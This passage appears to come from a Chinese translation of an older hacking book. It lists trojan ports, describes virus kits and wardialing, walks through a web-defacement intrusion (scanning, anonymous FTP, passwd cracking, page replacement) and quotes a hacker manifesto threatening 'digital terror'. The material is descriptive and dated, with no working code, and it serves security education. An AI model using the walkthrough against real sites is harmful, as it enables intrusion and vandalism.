| 端口 1001 (UDP) | Silencer, WebEx |
| 端口 1010 | Doly Trojan 1.1-1.7 (SE) |
| 端口 1011 | Doly Trojan |
| 端口 1012 | Doly Trojan |
| 端口 1015 | Doly Trojan |
| 端口 1024 | NetSpy 1.0-2.0 |
| 端口 1042 (TCP) | BLA 1.0-2.0 |
| 端口 1045 (TCP) | Rasmin |
| 端口 1090 (TCP) | Xtreme |
| 端口 1170 (TCP) | Psyber Stream Server, Streaming Audio Trojan, Voice |
| 端口 1234 (UDP) | Ultors Trojan |
| 端口 1243 (TCP) | BackDoor-G, SubSeven, SubSeven Apocalypse |
| 端口 1245 (UDP) | VooDoo Doll |
| 端口 1269 (TCP) | Mavericks Matrix |
| 端口 1349 (UDP) | BO DLL |
| 端口 1492 (TCP) | FTP99CMP |
| 端口 1509 (TCP) | Psyber Streaming Server |
| 端口 1600 (TCP) | Shivka-Burka |
| 端口 1807 (UDP) | Spy-Sender |
| 端口 1981 (TCP) | Shockrave |
| 端口 1999 | BackDoor 2.00 - 2.03 |
| 端口 1999 (TCP) | TransScout |
| 端口 2000 | TransScout |
| 端口 2001 (TCP) | Trojan Cow 1.0 |
| 端口 2001 | TransScout Transmission Scout v1.1 - 1.2 |
| 端口 2002 | TransScout |
| 端口 2003 | TransScout |
| 端口 2004 | TransScout |
| 端口 2005 | TransScout |
| 端口 2023 (TCP) | Ripper |
| 端口 2086 (TCP) | Netscape/Corba exploit |
| 端口 2115 (UDP) | Bugs |
| 端口 2140 (UDP) | Deep Throat v1.3 serve, Deep Throat 1.3 KeyLogger |
| 端口 2140 (TCP) | The Invasor, Deep Throat v2.0 |
| 端口 2155 (TCP) | Illusion Mailer |
| 端口 2283 (TCP) | HVL Rat 5.30 |
| 端口 2400 | PortD |
| 端口 2565 (TCP) | Striker |
| 端口 2567 (TCP) | Lamer Killer |
| 端口 2568 (TCP) | Lamer Killer |
| 端口 2569 (TCP) | Lamer Killer |
| 端口 2583 (TCP) | WinCrash2 |
| 端口 2600 | Digital RootBeer |
| 端口 2801 (TCP) | Phineas Phucker |
| 端口 2989 (UDP) | RAT |
| 端口 3024 (UDP) | WinCrash 1.03 |
| 端口 3128 | RingZero |
| 端口 3129 | Masters Paradise 9.x |
| 端口 3150 (UDP) | Deep Throat, The Invasor |
| 端口 3459 | Eclipse 2000 |
| 端口 3700 (UDP) | Portal of Doom |
| 端口 3791 (TCP) | Total Eclipse |
| 端口 3801 (UDP) | Eclipse 1.0 |
| 端口 4092 (UDP) | WinCrash-alt |
| 端口 4321 | BoBo 1.0 - 2.0 |
| 端口 4567 (TCP) | File Nail |
| 端口 4590 (TCP) | ICQ-Trojan |
| 端口 5000 (UDP) | Bubble, Back Door Setup, Sockets de Troie/socket23 |
| 端口 5001 (UDP) | Back Door Setup, Sockets de Troie/socket23 |
| 端口 5011 (TCP) | One of the Last Trojans (OOLT) |
| 端口 5031 (TCP) | Net Metropolitan |
| 端口 5321 (UDP) | Firehotker |
| 端口 5400 (UDP) | Blade Runner, Back Construction |
| 端口 5401 (UDP) | Blade Runner, Back Construction |
| 端口 5402 (UDP) | Blade Runner, Back Construction |
| 端口 5521 (TCP) | Illusion Mailer |
| 端口 5550 (TCP) | Xtcp 2.0 - 2.1 |
| 端口 5550 (TCP) | X-TCP Trojan |
| 端口 5555 (TCP) | ServeMe |
| 端口 5556 (TCP) | BO Facil |
| 端口 5557 (TCP) | BO Facil |
| 端口 5569 (TCP) | Robo-Hack |
| 端口 5571 (TCP) | Lamer variation |
| 端口 5742 (UDP) | WinCrash |
| 端口 6400 (TCP) | The Thing |
| 端口 6669 (TCP) | Vampire 1.0 - 1.2 |
| 端口 6670 (TCP) | DeepThroat |
| 端口 6683 (UDP) | DeltaSource v0.5 - 0.7 |
| 端口 6771 (TCP) | DeepThroat |
| 端口 6776 (TCP) | BackDoor-G, SubSeven |
| 端口 6838 (UDP) | Mstream (Attacker to handler) |
| 端口 6912 | Shit Heap |
| 端口 6939 (TCP) | Indocrination 0.1 - 0.11 |
| 端口 6969 | GateCrasher, Priority, IRC 3 |
| 端口 6970 | GateCrasher 1.0 - 1.2 |
| 端口 7000 (UDP) | Remote Grab, Kazimas |
| 端口 7300 (UDP) | NetMonitor |
| 端口 7301 (UDP) | NetMonitor |
| 端口 7302 (UDP) | NetMonitor |
| 端口 7303 (UDP) | NetMonitor |
| 端口 7304 (UDP) | NetMonitor |
| 端口 7305 (UDP) | NetMonitor |
| 端口 7306 (UDP) | NetMonitor |
| 端口 7307 (UDP) | NetMonitor |
| 端口 7308 (UDP) | NetMonitor |
| 端口 7789 (UDP) | Back Door Setup, ICKiller |
| 端口 8080 | RingZero |
| 端口 8989 | Recon, recon2, xcon |
| 端口 9090 | Tst2, telnet server |
| 端口 9400 | InCommand 1.0 - 1.4 |
| 端口 9872 (TCP) | Portal of Doom |
| 端口 9873 | Portal of Doom |
| 端口 9874 | Portal of Doom |
| 端口 9875 | Portal of Doom |
| 端口 9876 | Cyber Attacker |
| 端口 9878 | TransScout |
| 端口 9989 (TCP) | iNi-Killer 2.0 - 3.0 |
| 端口 9999 (TCP) | theprayer1 |
| 端口 10067 (UDP) | Portal of Doom |
| 端口 10101 | BrainSpy Vbeta |
| 端口 10167 (UDP) | Portal of Doom |
| 端口 10520 | Acid Shivers + LMacid |
| 端口 10607 (TCP) | Coma 1.09 |
| 端口 10666 (TCP) | Ambush |
| 端口 11000 (TCP) | Senna Spy |
| 端口 11223 (TCP) | Progenic trojan 1.0 - 1.3 |
| 端口 12076 (TCP) | Gjammer |
| 端口 12223 (UDP) | Hack 99 KeyLogger |
| 端口 12223 (TCP) | Hack 99 |
| 端口 12345 (UDP) | GabanBus, NetBus, Pie Bill Gates, X-bill |
| 端口 12346 (TCP) | GabanBus, NetBus, X-bill |
| 端口 12361 (TCP) | Whack-a-mole |
| 端口 12362 (TCP) | Whack-a-mole |
| 端口 12631 | WhackJob |
| 端口 13000 | Senna Spy Lamer |
| 端口 16660 (TCP) | stacheldraht |
| 端口 16969 (TCP) | Priority (Beta) |
| 端口 17300 (TCP) | Kuang2 The Virus |
| 端口 20000 (UDP) | Millennium 1.0 - 2.0 |
| 端口 20001 (UDP) | Millennium |
| 端口 20034 (TCP) | NetBus 2 Pro |
| 端口 20203 (TCP) | Logged, chupacabra |
| 端口 21544 (TCP) | GirlFriend 1.3x (Including Patch 1 and 2) |
| 端口 22222 (TCP) | ProsiaK |
| 端口 23456 (TCP) | Evil FTP, Ugly FTP, Whack Job |
| 端口 23476 | Donald Dick 1.52 - 1.55 |
| 端口 23477 | Donald Dick |
| 端口 26274 (UDP) | Delta Source |
| 端口 27444 (UDP) | trinoo |
| 端口 27665 (TCP) | trinoo |
| 端口 29891 (UDP) | The Unexplained |
| 端口 30029 | AOL Trojan |
| 端口 30100 (TCP) | NetSphere 1.0 - 1.3 |
| 端口 30101 (TCP) | NetSphere |
| 端口 30102 (TCP) | NetSphere |
| 端口 30133 (TCP) | NetSphere final |
| 端口 30303 | Sockets de Troi = socket23 |
| 端口 30999 (TCP) | Kuang2 |


# 网络木马端口列表

端口 31335 (UDP) trino

端口 31336 Bo Whack

端口 31337 (TCP) Baron Night, BO 客户端, BO2, Bo Facil

端口 31337 (UDP) BackFire, Back Orifice, DeepBO

端口 31338 (UDP) Back Orifice, DeepBO

端口 31339 (TCP) Netspy

端口 31339 (UDP) NetSpy DK

端口 31554 (TCP) Schwindler is from portugal

端口 31666 (UDP) BOWhack

端口 31785 (TCP) Hack 'a' Tack 1.0 - 2000

端口 31787 (TCP) Hack 'a' Tack

端口 31788 (TCP) Hack 'a' Tack

端口 31789 (UDP) Hack 'a' Tack

端口 31791 (UDP) Hack 'a' Tack

端口 31792 (UDP) Hack 'a' Tack

端口 32418 Acid Battery v1.0

端口 33333 Blakhazarz, Prosia k

端口 33577 PsychWard

端口 33777 PsychWard

端口 33911 (TCP) Spirit 2001a

端口 34324 (TCP) BigGluck, TN

端口 40412 (TCP) The Spy

端口 40421 (UDP) Agent 40421, Masters Paradise

端口 40422 (UDP) Masters Paradise

端口 40423 (UDP) Masters Paradise

端口 40426 (UDP) Masters Paradise

端口 47262 (UDP) Delta Source

端口 50505 (UDP) Sockets de Troie = socket23

- 端口 50766 (UDP)
  Schwindler 1.82
- 端口 53001 (TCP)
  远程 Windows 关机
- 端口 54320
  Back Orifice 2000
- 端口 54321 (TCP)
  School Bus
- 端口 54321 (UDP)
  Back Orifice 2000
- 端口 54329 (TCP)
  lamer
- 端口 57341 (TCP)
  netraider 0.0
- 端口 58339
  ButtFunnel
- 端口 60000
  Deep Throat
- 端口 60068
  Xzip 6000068
- 端口 61348 (TCP)
  Bunker-Hill 木马
- 端口 61466 (TCP)
  Telecommando
- 端口 61603 (TCP)
  Bunker-Hill 木马
- 端口 63485 (TCP)
  Bunker-Hill 木马
- 端口 65000 (UDP)
  Devil v1.3
- 端口 65000 (TCP)
  Devil stacheladraft lamer 变种
- 端口 65432
  The Traitor
- 端口 65432 (UDP)
  The Traitor
- 端口 65535
  RC, ICE

远程访问型或密码窃取型木马的另一个问题是，不断涌现出具有开创性的变种——1997 年有 7 种，1998 年有 81 种，1999 年有 178 种，而 2000 年和 2001 年的数量则是其两倍。目前并不存在能够检测众多未知木马的软件杀毒或反木马程序。声称能够保护你系统的程序通常只能找到所有木马中很小的一部分。更令人担忧的是，在互联网上流传的木马源代码很容易被修改，从而形成更多的变种。

## 病毒感染

在这种语境下，病毒是一种通过利用宿主程序来复制自身的计算机程序。这意味着病毒*需要*宿主程序；因此，除了可执行文件外，控制你硬盘的代码也可能（在许多情况下，确实会）受到感染。当计算机将其代码复制到一台或多台宿主程序中时，病毒代码会执行，然后进行自我复制。

通常，黑客传播的计算机病毒倾向于携带一个*负载（payload）*，即经过指定时间后造成的损害。损害程度可能从文件损坏、数据丢失，甚至硬盘被完全抹除不等。病毒最常通过电子邮件附件、盗版软件分发以及受感染软盘的传播来分发。

病毒对你系统造成的损害取决于病毒的类型。流行的形式包括可以在打开电子邮件时触发事件的活跃代码（例如臭名昭著的“I Love You”和“Donald Duck”病毒）。传统上，病毒的生命周期有三个明显的阶段：激活、复制和操作：

1.  *激活。* 计算机最初“感染”病毒的时点，通常来自受信任的来源。
2.  *复制。* 病毒感染其所能触及的尽可能多来源的阶段。
3.  *操作。* 病毒的负载开始生效的时点，例如在特定日期（如周五 13 号或 1 月 1 日）或特定事件（如第三次重启，或计划的磁盘维护程序）发生时。

根据特定的恶意操作形式，病毒被分类为：分区扇区病毒、启动扇区病毒、文件感染病毒、多态病毒、多部件病毒、木马病毒、蠕虫病毒或宏病毒。附录 F 列出了当今已知的超过 69,000 种病毒中最为常见的病毒。这些名称可以与在嗅探器捕获的数据字段中发现的 ASCII 进行比较，以评估病毒特征。


杀毒程序的一个主要问题在于它们通常是被动响应型的。黑客使用各种“创建套件”（例如 Nuke Randomic Life Generator 和 Virus Creation Lab）来设计他们独特的病毒变形，并伴有独特的痕迹。因此，病毒防护软件必须不断更新和修订，以适应针对这些新感染源所需的追踪机制。

Nuke Randomic Life Generator（如图 8.19 所示）提供了一种独特的病毒工具生成方式。该程序制定一种驻留病毒，将其植入随机例程中，旨在创建不同的变种。

使用 Virus Creation Lab（图 8.20），这是一款基于菜单驱动的工具，黑客创建并编译自己的定制病毒转换，包含大多数破坏选项，使他们能够破坏文件、占用磁盘空间并拥塞系统。据报道，该软件负责当今发现的大量病毒变种的 60% 以上。

**黑客笔记** 这些构建套件附赠于随本书附带的光盘中。


图 8.20 Virus Creation Lab。

## 自动拨号

扫描可利用的安全漏洞——其思想是探测尽可能多的监听器，并跟踪那些对你的特定目的有反应或有用的监听器——并不新鲜。与此活动类似的是电话系统代码扫描，称为*自动拨号（wardialing）*：黑客使用自动拨号扫描电话号码，跟踪那些以载波音回答的号码。

Toneloc、THCScan 和 PhoneSweep 等优秀程序被开发出来，以促进对整个交换局甚至更多区域的探测。基本思想很简单：如果你拨出一个号码并且你的调制解调器给你潜在的 CONNECT 状态，它会被记录；否则，计算机将挂断并拨下一个号码，永无止境。这种方法通常用于尝试对系统和/或网络进行远程渗透攻击。

然而，最近，黑客想要通信的许多计算机是通过像互联网这样的网络连接，而不是模拟电话拨号。扫描这些机器涉及相同的暴力破解技术，发送各种协议的成百上千个数据包，以从收到（或未收到）的响应中推断哪些服务正在监听。

自动拨号器利用了廉价调制解调器在远程拨号网络访问中的普及。基本上，该工具按指定顺序拨出一组电话号码，寻找传说中的调制解调器载波音。一旦工具导出发现的调制解调器列表，攻击者就可以拨号这些系统以寻找安全漏洞。当前软件，带有自编程模块插件，实际上可以搜索“无密码”的 PC 远程控制软件或发送已知的漏洞利用脚本。

THC-Scan 是当今可用的功能最丰富的拨号工具之一，因此在自动拨号器中广泛使用。该软件实际上是 Toneloc 的后继者，被称为黑客首选（THC）扫描器，由臭名昭著的 van Hauser（*黑客首选* 的总裁）开发。THC-Scan 为自动拨号领域带来了新的有用功能（它自动检测发现调制解调器的速度、数据位、校验位和停止位）。该工具还可以确定发现机器的操作系统类型，并具有识别后续拨号音的能力，使攻击者能够通过受害者的 PBX 免费拨打长途电话成为可能。

## 网页黑客攻击

最近，全球各地的新闻头条都被网页黑客的“成就”占据，其中包括破坏或替换诸如 NASA、白宫、绿色和平组织、六旗乐园、美国空军、美国商务部和基督教会（其中四个显示在图 8.21 中）等网站的主页。著名的黑客网站 [www.2600.com/hacked_pages/] 包含被黑客攻击的当前和存档列表。

以下文章由一名匿名黑客撰写（提交至 www.TigerTools.net，1999 年 2 月 6 日），提供了黑客世界的内部视角。

我已经涉足“黑客圈子”大约四年了，我对你现在看到的一些所谓黑客所做的一切感到反胃。像“miwOrm”和“Dist0rT”这样的组织认为黑客就是破坏网页和摧毁网站。这些幼稚的小流氓在他们自己的破解者组织之间发动愚蠢的“网络战争”。他们在他们破解的页面上吹嘘他们的黑客技能，为了什么？当然，是为了名声。

在我以前热衷服务器黑客的时候，我从未在服务器上留下我的名字/化名或任何关于我是谁的其他证据。我很少更改网页（我确实更改过一个网站，由一个我知道正在犯邮件欺诈的人运营


……借助他的网站），并且我始终确保如果我打算修改任何东西，我拥有“root权限”。我总是确保清除日志中关于我的所有痕迹；当我确信自己不会被抓到时，我会通知系统管理员我所用来进入系统的安全漏洞。

我知道四年并不是很长一段时间，但在这四年里，我目睹了巨大的变化。是的，仍然有很多新手，那些想要学习但可能走错了路的人；也许他们正在使用像Back Orifice这样的工具——就像我刚开始接触这个领域时，许多人使用电子邮件炸弹一样。像milw/orm这样的群体似乎由一群不成熟的年轻人组成，他们玩弄在rootshell.com找到的利用代码，并在真正的黑客社区面前显得愚昧无知。

没有人是完美的，但看起来今天的许多新手正走在一条死胡同里。黑客技术不仅仅是篡改网页，也不仅仅是为了出名。黑客技术涉及许多不同的方面：学习新的操作系统、学习编程语言、尽可能多地学习各种知识。[要做到这一点，你必须]沉浸在技术数据的海洋中，读一些好书；安装Linux或*BSD。学习，学习你能学到的一切。生命短暂，不要把你的时间浪费在与无足轻重的人争吵和追求虚名上。作为一个拥有超过四分之一百万访问量的网站负责人，我可以告诉你，名声并没有大家吹嘘的那么好。

去追求让你快乐的事情。不要在意别人的看法。去创造一些对人们有用的东西；不要破坏他人的辛勤成果。如果你在服务器上发现安全漏洞，通知系统管理员，并指引他们去修复这个漏洞的方向。帮助别人比破坏他们的成果更有成就感。

最后，我希望这篇文章能帮助那些篡改网站的人开阔视野。我希望你能思考我说的话，并将其铭记于心。对网页黑客行为的狂热持续太久了。太多辛勤的工作被破坏了。如果是你的辛勤成果被破坏，你会作何感想？

任何黑客针对网页攻击的初始目标都是窃取密码。如果黑客无法成功安装远程控制守护进程以获取访问权限来修改网页，他或她通常会尝试使用以下方法之一来获取登录密码：

- FTP黑客攻击
- Telnet黑客攻击
- 窃密木马
- 社会工程学（欺诈）
- 突破HTTP管理前端。
- 利用Web创作服务守护进程，例如MS FrontPage
- 匿名FTP登录和密码文件搜索（例如 /etc 文件夹）
- 搜索互联网上已发布的可利用密码文件，利用常见的网络蜘蛛

以下关于一次实际成功网页黑客攻击的场景应该有助于阐明本节的内容。为了讨论的目的，此次攻击被分解为五个简单的步骤。

> 在此现实场景中的目标公司签署了协议免责声明，作为网站完整性安全评估的要求之一。

# 步骤 1：进行少量调研

此步骤的目的是获取一些目标侦察信息。黑客分析仅以一个公司名称开始，在本例中为 WebHackVictim, Inc。如前所述，此步骤包括在互联网上定位目标公司的网络域名。再次说明，域名是连接互联网或任何使用 TCP/IP 网络系统中使用单词来标识服务器、组织和组织类型的设备的地址，其形式为：www.companyname.com。

如前所述，在互联网上找到特定的网络就像在干草堆里找针一样：这很困难，但并非不可能。现在你应该知道，Whois 是一项互联网服务，允许用户查找信息，例如某公司或在该域名拥有账户的用户的 URL。


**图 8.22** Whois 验证示例。

现在，既然目标公司已被确认为有效的互联网域名，此步骤的下一部分是点击 Whois 搜索结果中的域名链接以验证目标公司。地址验证将确认正确的目标公司 URL；简而言之，这是成功的确认。

# 步骤 2：详细发现信息

此步骤的目的是在开始攻击尝试之前获取更详细的目标侦察信息。这包括执行一个简单的 ICMP 回显请求（PING）来揭示 www.webhackvictim.com 的 IP 地址。PING 可以从 MS-DOS 窗口（在 Microsoft Windows 中）或终端控制台会话（在 UNIX 中）执行。简而言之，PING 命令揭示 IP 地址的过程可以分解为五个步骤：

1. 一个工作站执行 PING 请求。
2. 该请求查询你自己的 DNS 或你的 ISP 注册的 DNS 以进行名称解析。
3. 该 URL——例如 www.zyxinc.com——对你的网络来说是外部的，因此查询被发送到 InterNIC DNS。


**图 8.23** 域名解析过程。

4. 从 InterNIC DNS，域名 zyxinc.com 被匹配到 XYZ 自己的 DNS 或 ISP DNS 的 IP 地址（207.237.2.2），使用第 5 章中介绍的相同发现技术进行转发。
5. XYZ Inc. 的 ISP 托管 DNS 服务，将域名 www.zyxinc.com 匹配并解析为 IP 地址，并将数据包转发到 XYZ 的 Web 服务器，最终返回响应（见图 8.23）。

图 8.24 中通过 ICMP 回显（PING）请求揭示了目标域名的 IP 地址。


**图 8.24** ICMP 回显请求。


**图 8.25** 扩展 ping 查询。

域名的标准 DNS 条目通常包括 WWW（互联网 Web 服务器）、FTP（FTP 服务器）等的名称到 IP 地址的记录。如图 8.25 所示，扩展 PING 查询可能揭示我们目标网络 207.155.248.0 上的这些主机。

不幸的是，在这种情况下，目标要么不维护标准的 DNS 条目池，要么 FTP 服务绑定在不同的名称到 IP 地址上，因此我们必须执行标准的 IP 端口扫描以揭示任何潜在的可利用服务。通常，我们只扫描以发现整个网络上的活动地址及其开放端口（记住，黑客不会花太多时间进行渗透和漏洞测试扫描，因为这可能导致他们自己被发现）。标准目标站点扫描将基于网络是完整的 Class C 的假设开始（参见第 1 章）。根据这些参数，我们将扫描器设置为地址范围 207.155.248.1 到 207.155.248.254，掩码为 24 位，即 255.255.255.0，以适应我们之前的 DNS 发现结果：

www www.webhackvictim.com 207.155.248.7

然而，此时我们只对位于 207.155.248.7 的 Web 服务器感兴趣，所以让我们直接开始运行扫描，将超时设置为 2 秒。这应该是发现该系统开放端口的足够时间：

```
207.155.248.7: 11, 15, 19, 21, 23, 25, 80
```

太好了！我们中了大奖！注意以下几点：

- **端口 11: Sysstat。** Sysstat 服务是一个 UNIX 服务器功能，提供远程列出运行进程的能力。根据这些信息，黑客可以选择哪种攻击最成功。
- **端口 15: Netstat。** Netstat 命令允许显示活动网络连接的状态、MTU 大小等。根据这些信息，黑客可以做出关于信任关系的假设，以渗透当前域之外。
- **端口 19: Chargen。** Chargen 服务旨在生成字符流用于测试目的。远程攻击者可以通过利用系统的 echo 服务和 chargen 服务形成循环来滥用此服务。攻击者不需要位于当前子网即可通过这种伪造的网络会话导致严重的网络性能下降。


- **端口 21：FTP**。开放的 FTP 服务横幅可能会通过列出服务守护进程版本来帮助黑客。根据操作系统和守护进程版本不同，攻击者可能能够获取系统的匿名访问权限。
- **端口 23：Telnet**。这是一个守护进程，通过网络或互联网提供远程计算机的访问和管理功能。为了更有效地攻击系统，黑客可以利用 telnet 服务提供的信息。
- **端口 25：SMTP**。结合端口 110 的 POP3，攻击者可以通过发送邮件炸弹、伪造邮件，或简单地窃取互联网邮件传输的网关服务来滥用邮件服务。
- **端口 80：HTTP**。HTTP 守护进程表明有一个活动的 Web 服务器服务。这个端口仅仅是几种服务攻击的开放入口，包括远程命令执行、文件和目录列表、搜索、文件利用、文件系统访问、脚本利用、邮件服务滥用、安全数据利用以及网页篡改。
- **端口 110：POP3**。结合端口 25 的 SMTP，攻击者可以通过发送邮件炸弹、伪造邮件，或简单地窃取互联网邮件传输的网关服务来滥用邮件服务。

如果这个模式看起来很眼熟，那是因为该系统几乎肯定是一台 UNIX 服务器，可能由新手管理员配置。话虽如此，请记住，目前的统计数据表明，超过 89% 的所有连接互联网的网络安全都存在某种类型的严重渗透攻击漏洞，尤其是由 UNIX 驱动的那些网络。

## 步骤 3：发起初步攻击

这一步的目标是尝试匿名登录并寻找任何潜在的安全漏洞。让我们从那个似乎正朝我们敞开的服务开始：FTP 守护进程。在 UNIX Web 服务器上获取超级用户权限最简单的方法之一就是通过匿名 FTP 访问。我们还将欺骗我们的地址以有助于掩盖行踪。

这是一个常规加密密码文件的示例，类似于我们找到的那个：超级用户部分是启用 root 或管理员访问权限的关键，也是文件的主要部分：

```
root:x:0:0:Superuser:/:
ftp:x:202:102:Anonymous ftp:/u1/ftp:
ftpadmin:x:203:102:ftp Administrator:/u1/ftp
```

## 步骤 4：扩大裂痕

这一步的第一部分需要使用前面章节中详述的技术下载或复制密码文件。然后，我们将找到一个密码破解器和字典生成器，并开始破解目标文件。在这种情况下，推荐的破解器包括 Cracker Jack、John the Ripper、Brute Force Cracker 或 Jack the Ripper。

## 步骤 5：执行网页黑客攻击

在我们通过 FTP 以管理员权限登录并定位目标网页文件（在这种情况下是 index.html）之后，我们将下载该文件，使用任何标准的网页制作工具进行修改，并上传新的被篡改版本（参见图 8.26）。

为了收尾本小节，正如它开始时那样，从黑客的角度来看，以下是地下黑客团队 H4G1S 成员在入侵 NASA 后的一段网页黑客宣言。

互联网的商用化在此止步

### 来自 H4G1S 成员的问候

我们的使命是继续我们同事 ILF 留下的事业。在接下来的一个月内，我们 H4G1S 的成员将对企业美国发起攻击。所有从互联网的滥用中获利的人都将成为我们即将开始的数字恐怖统治的受害者。我们拥有特权且技能高超的成员将无所不用其极，直到我们的存在在全国范围内产生影响。即使是你最精密的防火墙也是无效的。我们将在接下来的几周中证明这一点。

- 你可以责怪我们
- 尽全力逮捕我们
- 你可以为我们制定法律让我们去打破
- 并为我们要窃取的数据提供“安全”保护
- 黑客，并非出于职业，而是出于天赋权利。

- 有些人天生白，有些人天生黑
- 但混乱不选择颜色
- 这种笼罩我们所有生活的混乱
- 驱使我们去黑
- 内心深处，越过媒体，越过政府，越过所有的废话：
- 我们都是黑客

- 一旦它缠上你，就永远不会放手。
- 这种消耗我们自由、人性、稳定性和安全感的阴谋
- 这种自我复制且毫无成果的循环只能通过暴力终结
- 如果我们必须自己终结这一切，我们将无所不用其极
- 这是向美国发出的呼声，去接触你内心的黑客


我们的原始版本


我们的被黑版本


- 退后一步，环顾四周
- 我的兄弟们还要忍受多久，为了被主观宣布为非法的罪行。

- 所有这些办公室里的亲族
- 从国家窃取金钱
- 撰写减少你权利的法令
- 而国家却视而不见
- 美国人：
- 是时候战斗了。

- 我们将战斗
- 在街头，在我们的家中
- 在赛博空间，通过电话
- 他们正在通过压制我们的意志取胜
- 通过我们称之为媒体的闹剧
- 通过我们称之为资本主义的闹剧
- 通过我们称之为司法系统的闹剧
- 告诉 Bernie S ([http://www.2600.com/law/bernie.html](http://www.2600.com/law/bernie.html)) 和 Kevin Mitnick
- ([http://www.kevinmitnick.com/](http://www.kevinmitnick.com/)) 什么是正义

- 这是一次打击，很快将变成许多次
- 对于你们中那些现在在家的读者，我们请求你们
- 请，不是为了 Hagis，不是为了你的国家，而是为了你自己
- 对抗白色犬类压迫者
- 阿们。

# 第五部分：漏洞黑客秘密

## 黑客的天职

当我站在那里思考新发现的潜在资源时，我意识到我有点困惑：信中说明，在我被视为入门成员之前有一些先决条件。首先，我必须起草几段自传，包括我对该群体的期望以及我预计能提供的个人贡献。其次，我必须列出我认为自己熟练的软件、硬件和技术清单。第三个要求规定必须列出我当前拥有的所有软件和硬件。最后，我要求复制这些信息并邮寄给包含在附寄软盘上的名单上的名字。我特别兴奋看到那份名单。我想知道：那是成员名单吗？像我这样的计算机爱好者会有多少？我立即将软盘插入系统并执行了文件 runme.com。执行后，程序显示了一段接受声明，我略读了一下，并迅速点击了同意。接下来，我被指示配置打印机以用于邮寄标签。我很乐意这样做，因为我刚买了一批标签，迫不及待想打印出来。然而，令我惊讶的是，我的打印机不停地打印，直到我不得不跑到商店再买一些，然后又一次——总共买了五包 50 个标签。然后我还得买 265 枚邮票。我无法相信这个群体有 260 多名成员：这个群体成立多久了？我急于弄清楚，所以在第二天一早我就邮寄了我的申请材料。第二天，当我从邮局走回来时，我想我应该复制一份我的会员软盘；里面确实有重要的联系人。但当我到家并加载软盘时，runme.com 文件似乎已被删除。（后来我发现了一些隐藏文件，解开了这个谜团。）名单不见了，所以我等待。

耐心是一种美德——至少我是这样被教导的。在这种情况下，它也得到了回报。不久之后，我就收到了作为该计算机俱乐部新成员的第一封回信。新包裹包含另一个邮寄名单——与第一个不同，而且小得多。还有一封欢迎信和一份庞大的软件程序列表。欢迎信的后半部分包含了一些最后的强制性说明。我的第一个指令是选择一个代号，一个我在与该俱乐部的所有通信中将被称呼的昵称。我选择了 Ponyboy，这是我几年前所属的一个社区小组中的昵称。下一个目标是双重的：首先，我必须将我从提交的列表中发送五个程序到封内的地址。作为回报，作为目标的第二部分，我要从欢迎信中附带的清单中选择我想要的五个程序。我发送我的软件（完整的原始磁盘、手册和包装）没有障碍，因为我期待着收到新的替代品。

大约一周半过去了，我才收到回复。我很惊讶它比我邮寄的要小得多——显然我的选择不可能装在那个那么小的包裹里。我最初的怀疑是我被骗了，但当我打开包裹时，我立即注意到有三张单面软盘，两边都有标签和神秘的笔迹。我花了一点时间辨认这些潦草的字迹，才发现那是我所请求的计算机程序的名称，加上第三张软盘第二面看似额外的软件。这些额外程序简单地写着：hack-005。这张软盘像以前任何时候一样激发了我的好奇心。我不记得以前或以后曾经如此迅速地启动系统并扫描软盘。

该软件包含地下磁盘复制程序、一批黑客文本文件，以及从 ASCII 到十六进制的文件编辑器。其中一个文件包含关于盗版商业软件的说明，另一个文件则关于如何将单面软盘转换为双面使用（这就解释了为什么两边都有标签


（通常情况下，这些磁盘是单面录制的）。此外还有更多：关于入侵系统密码以及绕过 CMOS 和 BIOS 指令的文件。那里有一份非常长的电话号码和访问代码列表，涵盖了几乎每个州的黑客公告板。还有关于我所在地区将举行的秘密会议的信息。我感觉自己就像一个被允许随意挑选糖果的小孩。回想起来，我认为那一刻标志着我投身于一个新的职业：成为一名黑客。

……未完待续。

## 网关、路由器和互联网服务器守护进程

第 8 章中详述的端口、套接字和服务漏洞渗透，或多或少可以应用于本书此部分的任何章节，因为它们被选为对特定目标最常见的威胁之一。利用构成此部分的三章中的示例，我们将具体审查专门挑选的漏洞利用技术，这些技术可能你已经了解，也可能是你至今尚未见过的。结合在一起，它们提供了重要的信息，有助于巩固你的技术基础。并且所有的源代码，包括 MS Visual Basic、C 和 Perl 代码片段，都可以针对单独的评估进行修改。

本章中，我们涵盖了网关和路由器以及互联网服务器守护进程。在第 10 章中，我们讨论操作系统，在第 11 章中，讨论代理和防火墙。

> 未经目标公司书面同意，这些程序中的大多数在美国和许多其他国家是非法的。作者或出版商不对本书所含信息的使用或误用承担责任。

### 网关和路由器

从根本上说，网关是充当多个网络之间门户的网络点。例如，在公司网络中，代理服务器可以充当内部网络和互联网之间的网关。同理，SMTP 网关允许网络上的用户交换电子邮件。网关互连网络，并根据其 OSI 模型操作层进行分类；例如，物理层 1 的中继器，数据链路层 2 的桥，网络层 3 的路由器，等等。本节描述了主要针对作为访问路由器操作的常见网关的漏洞渗透秘密，它们运行在网络层 4。

连接任意数量局域网（LAN）或广域网（WAN）的路由器使用协议头部中的信息构建路由表，并根据编译的决策转发数据包。路由硬件设计相对简单，由网络接口、管理或控制台端口组成，甚至还包括用于带外管理设备（如调制解调器）的辅助端口。当数据包进入路由器的网络接口卡时，它们被放入队列以进行处理。在此期间，路由器构建、更新和维护路由表，同时检查数据包头部以进行下一步的编译——基于路由策略接受并转发数据包，或基于过滤策略丢弃数据包。同样，同时，协议性能功能提供握手、窗口调整、缓冲、源站抑制和错误检查。

这里描述的网关还涉及各种终端服务器、传输和应用网关服务。这些地下漏洞秘密涵盖了目前使用的约 90% 的网关，包括 3Com、Ascend、Cabletron、Cisco、Intel 和 Nortel/Bay 的网关。

### 3Com

3Com (www.3com.com) 提供技术产品已超过二十年。由于全球拥有超过 3 亿用户，3Com 名列纳斯达克 100 强公司之并不足为奇。与本节相关的是，该公司提供的接入产品范围广泛，从 OfficeConnect 产品系列的小型办公室连接，到高性能的 LAN/WAN 可用性，包括 VPN 隧道和安全应用。每个解决方案都旨在构建中型企业的安全远程访问、内网和外网。这些产品集成了 WAN 技术，如帧中继（Frame Relay）、xDSL、ISDN、租用线路和多协议 LAN-to-LAN 连接。OfficeConnect 产品线面向中小型业务，通常提供远程位置连接以及互联网访问。在光谱的另一端，SuperStack II 和 Total Control 产品系列为中型至大型企业及 ISP 提供到分支机构、互联网和移动用户接入点的安全、可靠连接。

### 弱点

### HiPer ARC 卡拒绝服务攻击

- **概述：** 3Com HiPer ARC 易受 nestea 和 1234 拒绝服务（DoS）攻击。
- **黑客状态：** 系统崩溃。
